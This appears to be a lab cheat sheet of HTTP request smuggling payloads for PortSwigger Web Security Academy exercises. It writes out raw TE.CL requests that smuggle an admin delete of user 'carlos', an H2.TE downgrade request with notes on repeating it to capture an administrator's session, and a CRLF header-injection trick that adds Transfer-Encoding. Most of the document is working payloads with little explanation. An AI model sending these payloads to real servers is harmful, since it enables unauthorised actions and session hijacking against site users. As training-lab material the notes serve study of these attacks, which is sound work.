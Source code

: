 Tests TE.CL
```
Content-length: 4
Transfer-Encoding: chunked

5e
POST /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0(\r\n\r\n)
------------------

Content-length: 4
Transfer-Encoding: chunked

84
POST /admin/delete HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

username=carlos
0(\r\n\r\n)
------------------


```

H2.TE (from http2 to http 1.1)
```
POST / HTTP/2
Host: 0a01008f0443790380e126dd00ad0050.web-security-academy.net
...
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Ignore: X

------------------(steal session)
(send a couple times till you get a redirect with administrator login, a trick is to send it to intruder each 10 seconds)
POST / HTTP/2
Host: 0a2400b103b2814a805b62010085009f.web-security-academy.net
Transfer-Encoding: chunked

0

GET /asd HTTP/1.1
Host: 0a2400b103b2814a805b62010085009f.web-security-academy.net
(\r\n\r\n)

------------------(CRLF injection)
Add a new header in the inspector with value bar (shift+enter) **Name**
`foo`
**Value**
`bar\r\n Transfer-Encoding: chunked`

Transfer-Encoding: chunked

0
```